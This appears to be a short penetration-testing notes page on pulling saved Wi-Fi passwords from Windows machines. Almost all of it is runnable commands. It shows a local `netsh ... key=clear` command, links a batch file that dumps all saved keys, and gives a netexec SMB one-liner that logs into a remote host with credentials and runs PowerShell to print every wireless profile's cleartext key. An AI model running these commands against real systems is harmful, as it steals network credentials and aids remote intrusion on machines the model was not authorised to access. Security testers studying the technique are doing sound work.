 # Get Wireless password from Windows CMD



```
Netsh wlan show profile name="Wi-F name" key=clear
```

For convenience, here is a batch script that will display all the saved passwords.

{% file src="../../.gitbook/assets/display-all-saved-wireless-passwords.bat" %}

Additionally, you can use netexec in order to automate showing all profiles remotely

{% code overflow="wrap" %}
```bash
netexec smb 10.123.4.21 -u tester1 -p tester1 -x "powershell -Command \"\$profiles = (netsh wlan show profiles) -match 'All User Profile' | ForEach-Object { if (\$_ -match ': (.*)\s*\$') { \$matches[1].Trim() }}; \$results = @(); foreach (\$profile in \$profiles) { if (\$profile) { \$keyContent = (netsh wlan show profile name=\\\"\$profile\\\" key=clear | Select-String -Pattern 'Key Content' | ForEach-Object { if (\$_ -match 'Key Content\s*:\s*(.*)') { \$matches[1] } }); if (\$keyContent -and \$keyContent -ne \$null) { \$results += [PSCustomObject]@{ ProfileName = \$profile; Password = \$keyContent.Trim() } } }}; \$results | Format-Table -AutoSize\""
```
{% endcode %}
